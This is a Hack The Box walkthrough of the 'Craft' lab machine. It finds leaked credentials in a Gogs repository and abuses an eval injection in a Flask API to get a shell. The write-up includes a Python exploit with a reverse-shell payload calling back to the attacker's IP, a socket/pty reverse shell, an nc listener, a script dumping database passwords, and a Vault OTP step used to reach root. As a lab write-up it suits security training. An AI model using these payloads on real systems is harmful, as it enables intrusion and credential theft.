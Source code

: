 ```yaml
---
title: "Craft Hackthebox"
date: 2020-02-03
draft: false
---
```


## Changing hosts file

By looking at the source code we can see gogs and api subdomains


So I just modified the  /etc/hosts to the following in order to access them.
```
10.10.10.110    craft.htb gogs.craft.htb api.craft.htb
```

## Gogs page
![](https://i.imgur.com/wDN37yi.png)


By a simple Google search we find out that [Gogs](https://gogs.io/) is a somewhat widely used git service.

Exploring the Craft repo we quickly find that there was an issue and a "fix" was implemented:
![](https://i.imgur.com/eAIzGds.png)

By simply looking at the code we can easily identify where the vulnerability is. That is, passing user defined input directly into the eval function. 

We can also see that an API is used in the test file, so let's take a look at it as well.

## API page
We are presented with this once the page loads:
![](https://i.imgur.com/4cdaJZf.png)

So as you can see we can login ( therefore getting a token ), check the validity of the token and delete,update,create,get brews. However we can't interact with it since we don't have any credentials in order to get a token...

But wait, let's take a closer look at those 2 commits from before. 

![](https://i.imgur.com/LjZ4X8U.png)

OH, there you go, credentials found in the source code. Very bad practice indeed :))

# Exploiting eval
Now that we have the credentials needed to get a token, we need to think of a way to exploit the eval function. Wel... that's easy we just need to do this:

```python
import requests
import json
import urllib3

urllib3.disable_warnings()

url = "https://api.craft.htb/api/"
s = requests.Session()
r = s.get(url + "auth/login", auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
token = json.loads(r.text)['token']
print(token)

data = {
    "abv"       : "__import__('os').system('bash -i >& /dev/tcp/10.10.15.136/7070 0>&1')#",
    "name"      : "test",
    "brewer"    : "test",
    "style"     : "test"
}
data = json.dumps(data)

headers = {
    'X-Craft-API-Token': token,
    'Content-Type': 'application/json'
}
r = s.post(url + "brew/", headers=headers, data=data)
print(r.text)
```

And start our listener:

```bash
nc -nvlp 7070
```

Execute it and... Nothing. But it sohuld work right?

Well that's what I thought in the first place as well, but after a lot of thinking, poking and coffe I found out that I was pretty restricted, so I said fuck it. And build the payload from scratch with the things I knew would work. 

Finally I've ended up with this:
```python
eval(compile("""for x in range(1):\n import socket,subprocess, os\n s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n s.connect(("10.10.15.200", 7070))\n os.dup2(s.fileno(),0)\n os.dup2(s.fileno(),1)\n os.dup2(s.fileno(),2)\n import pty\n pty.spawn("/bin/sh")""","","single"))
```

After running the same script again, but with this payload I've got a shell.  Hooray!!

# Escaping the jail
I run `whoami` and I'm root. Uhmmm.... That's pretty strange, but ok let's take the root.txt
```bash
cat: /root/root.txt: No such file or directory
```

At this point I was confused, I thought that I gained access to a box that I wasn't supposed to, but that couldn't happen. Thus, I took a deeper look and found out that I was in a jail. However, I was having access to a file that I was previously interested in, but couldn't find it in the gogs page. That file being *`settings.py`*

So I just saw it in the directory I was currently in and took a look at it:

```python
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
```

Another credentials, ok... but what can we do with them? Well, he is using them to connect to the db so let's do the same:
```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host='db',
                             user='craft',
                             password='qLGockJ6G2J75O',
                             db='craft',
                             cursorclass=pymysql.cursors.DictCursor)

try:
    with connection.cursor() as cursor:
        sql = "select * from users"
        cursor.execute(sql)
        result = cursor.fetchall()
        for i in range(len(result)):
            print(result[i])

finally:
    connection.close()
```

And we get:

```
{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}
```

Nice we've now got the credentials for every user.
Now what?

At this point I thought to SSH with the found credentials, but it didn't work. So after getting into some really deep rabbit holes I've decided to try to connect to the Gogs page with the new secrets as a last hope.

And I've got in with the gilfoyle user, prompted with this:
![](https://i.imgur.com/Zwo1dtQ.png)

**Note: Don't overcomplicate things, work with what you have and exhaust every possibility before moving on**

I've instantly looked at the `.ssh` folder and found the private key and therefore got user. 

# Getting root

Once I've got user I immediatly went back to the new repo to have a deeper look into it, since I learned my lesson from the previous incident.

After looking through almost everything, the `vault/secrets.sh` popped as the most interesting to have a look at:
```bash
#!/bin/bash
# set up vault secrets backend
vault secrets enable ssh

vault write ssh/roles/root_otp \
        key_type=otp \
        default_user=root \
        cidr_list=0.0.0.0/0
```

With the help from Google I've found [this](https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html). I've just followed the article:

```bash
vault write ssh/creds/otp_key_role ip=10.10.10.110
```

Got the otp and used it to connect through SSH, since root was allowed to login.



